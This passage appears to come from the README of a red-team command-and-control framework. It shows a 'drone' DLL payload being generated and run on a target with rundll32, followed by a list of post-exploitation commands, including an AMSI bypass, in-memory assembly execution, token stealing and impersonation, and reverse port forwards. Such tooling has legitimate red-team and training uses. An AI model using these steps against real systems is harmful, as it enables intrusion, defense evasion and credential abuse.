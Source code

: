 Some options are not applicable for all payload types (e.g. DllExport does nothing for the Exe format).  To generate the payload, use `generate </output/path>`.

```text
[payloads] # generate /tmp/drone.dll
[+] Saved 89088 bytes.
```

Copy to the target and execute.

```text
C:\Users\Rasta\Desktop>rundll32 drone.dll,DemoPayload
```

## Interacting with Drones

```text
[drones] # [+] Drone 45322180d4 checked in.
[drones] # list

Guid        Address      Hostname         Username  Process   PID   Arch  LastSeen
----        -------      --------         --------  -------   ---   ----  --------
45322180d4  10.211.55.4  DESKTOP-KT84EGC  Rasta     rundll32  3688  x64   0.2s
```

To interact with a Drone, use `interact <guid>`.

```text
[drones] # interact 45322180d4
[45322180d4] # help

Name              Description
----              -----------
back              Back to previous screen
bypass-amsi       Bypass AMSI for post-ex tasks
cd                Change working directory
execute-assembly  Execute a .NET assembly in memory
exit              Exit this Drone
help              Get help
load-module       Load an external Drone module
ls                List files and directories
overload          Map a native DLL into memory
pwd               Print current working directory
rev2self          Drop token impersonation
rportfwd-list     List all active reverse port forwards
rportfwd-purge    Purge all active reverse port forwards
rportfwd-start    Start a new reverse port forward
rportfwd-stop     Stop a reverse port forward
run               Run a command
shell             Run a command via cmd.exe
sleep             Set sleep interval and jitter
token-del         Remove and dispose this token from the token store
token-list        List tokens in the token store
token-make        Create and impersonate a token with the given credentials
token-steal       Duplicate and impersonate the token of the given process
token-use         Use a token in the token store
```
